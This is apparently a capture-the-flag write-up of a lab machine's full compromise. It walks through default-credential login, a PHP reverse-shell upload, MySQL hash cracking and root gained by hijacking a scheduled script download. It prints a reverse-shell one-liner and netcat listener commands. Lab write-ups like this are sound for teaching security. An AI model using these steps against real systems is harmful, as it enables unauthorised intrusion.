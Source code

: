 I started with an IP address of the target machine. My first step was to find out which ports were open and what services were running. I launched a scan with nmap using the -sC -sV flags to collect as much info as possible. The result showed that only one port was open—port 85, which was running Apache httpd 2.4.7 (Ubuntu). The HTTP title revealed a cheeky message: "OH N0! PWN3D 4G4IN", clearly a hint of a vulnerable machine.

I opened http://10.10.80.222:85 in the browser and saw a static page with a spooky image. That was my first clue that something might be hidden. I ran a directory brute-force using gobuster with a basic dirbuster wordlist. Eventually, I found an interesting path: /app.

At /app, there was another page with a "JUMP" button redirecting me to /app/castle — a blog-style site themed around the character Toad. Viewing the source code revealed that the site was running Concrete5 CMS version 8.5.2.

After searching for public exploits and finding nothing useful, I decided to try some default credentials on the login form. Surprisingly, the combination admin:password worked, and I gained access to the admin panel.

I immediately checked the file upload functionality. At first, only .txt and .xml files were allowed. I tested uploading different extensions using ffuf, but the real breakthrough was finding a setting that let me change the allowed file types. I added .php, generated a reverse shell using revshells.com, pointing it to my IP and port, and uploaded it.

I opened a listener in my terminal with nc -nvlp 1234. Then I navigated to the uploaded PHP file in the browser, and boom—I got a shell back to my machine!

After stabilizing the shell, I ran whoami and confirmed I was the www-data user. I looked into the /home directory and found two users: mario and toad. To go further, I needed their credentials.

I uploaded the LinEnum script to the server via /tmp using a Python HTTP server (python3 -m http.server) and downloaded it with wget on the target. Running LinEnum revealed that I could log in to MySQL as root with no password.

Inside the mKingdom database, I found the admin password hash — which turned out to just be password again. In the mysql database, I found a hash for the user toad. I cracked it using hashcat with mode 300 (MySQL) and rockyou.txt. It gave me the password, and I used su toad to switch users.

Still stuck, I ran LinEnum again—this time as toad. I discovered an environment variable in a .env file: PWD_TOKEN. It was base64 encoded. Once decoded, I got a new password, which worked for user mario. As mario, I could finally access user.txt and grab the first flag!

But I still needed root. After trying various approaches, I uploaded pspy64 to watch running processes. I noticed that every minute, a script named counter.sh was downloaded from a domain mkingdom.thm. That was my chance!

I edited /etc/hosts to point mkingdom.thm to my own IP. I hosted a fake counter.sh using Python's HTTP server on port 85. The script contained a simple reverse shell like sh -i >& /dev/tcp/10.10.80.222/9001 0>&1. I opened a listener with nc -nvlp 9001 and waited. One minute later—I got a shell. This time, as root.

I confirmed it with whoami, then navigated to /root and read the root.txt flag — mission complete.

Conclusion
This was a super fun and educational project. I went through the full chain: from enumeration and bypassing restrictions to privilege escalation and full system compromise. Some of the key takeaways:

Bypassing file upload restrictions via admin settings.

Harvesting and cracking password hashes using MySQL and hashcat.

Using environment variables to pivot to other users.

Watching background processes with pspy64 and exploiting scheduled tasks via DNS spoofing.
